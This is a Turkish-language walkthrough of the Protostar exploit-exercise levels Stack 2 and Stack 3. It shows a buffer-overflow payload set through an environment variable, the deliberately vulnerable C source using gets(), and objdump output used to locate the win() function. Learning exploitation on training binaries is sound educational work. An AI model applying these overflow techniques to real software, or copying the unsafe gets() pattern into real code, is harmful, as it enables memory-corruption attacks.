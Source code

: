 Bu seviyede `getenv()` ile `GREENIE` çevre değişkenini alıp 64'lük buffera atıyor. Bizim yapmamız gereken bufferı taşırarak `modified` değişkeninin üzerine `0x0d0a0d0a` değerini yazmak.

0d = \r, 0a = \n

```bash
$ export GREENIE=$(python -c "print 'a' * 64 + '\n\r\n\r'")
$ ./stack2
you have correctly modified the variable
```

![alt text](protostarPNG/stack-20.png "stack02")

# Stack 3

https://exploit-exercises.com/protostar/stack3/

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
    printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to  0x%08x\n", fp);
        fp();
    }
}
```

Bu seviyede yapmamız gereken `buffer`ı taşırarak `fp` fonksiyon pointerının değerine `win` fonksiyonunun adresini vererek programın akışını değiştirmek.

Bu işleme `win` fonksiyonunun hangi adreste bulunduğunu öğrenerek başlayabiliriz.

```bash
$ objdump -d -M intel ./stack3 | grep -A10 win
08048424 <win>:
 8048424:	55                   	push   ebp
 8048425:	89 e5                	mov    ebp,esp
 8048427:	83 ec 18             	sub    esp,0x18
 804842a:	c7 04 24 40 85 04 08 	mov    DWORD PTR [esp],0x8048540
 8048431:	e8 2a ff ff ff       	call   8048360 <puts@plt>
 8048436:	c9                   	leave  
 8048437:	c3                   	ret    

08048438 <main>:
 8048438:	55                   	push   ebp
```